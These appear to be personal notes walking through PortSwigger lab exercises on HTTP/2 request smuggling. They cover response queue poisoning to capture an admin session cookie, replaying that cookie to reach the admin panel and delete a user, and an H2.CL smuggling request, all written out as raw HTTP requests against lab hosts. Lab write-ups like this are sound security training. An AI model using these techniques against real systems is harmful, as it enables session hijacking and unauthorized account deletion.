  Remember to terminate the smuggled request properly by including the sequence \r\n\r\n after the Host header. 

You will receive the 404 response to your own request
Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie. 
Send 10 ordinary response  to reset.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bc7a5dcb-8dac-4219-a974-f04fbb8415b8)

From <https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling> 





Copy the session cookie and use it to send the following request to the admin panel 

```
GET /admin HTTP/2
Host: 0a6b00a904086b2082f551eb0030008e.web-security-academy.net
Cookie: session=STOLENESSIONCOOKIE
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/dca51d14-bffc-4b67-8714-75db041e3433)





To delete 

```
GET /admin/delete?username=carlos HTTP/2
Host: 0a6b00a904086b2082f551eb0030008e.web-security-academy.net
Cookie: session=eiVlUrLVr93i4N4PmuH0J2fKcumc6Hi9
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d71683aa-c5c9-4416-bd10-6a46a388629c)


**H2.CL Request Smuggling (turn off update content length)**


```
POST / HTTP/2
Host: 0a130085036f6110833823da00be0008.web-security-academy.net
Content-Length: 0

SMUGGLED
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fd33dc7f-18c0-41ba-bb7c-2f882e599acb)


• Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix. 

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling> 
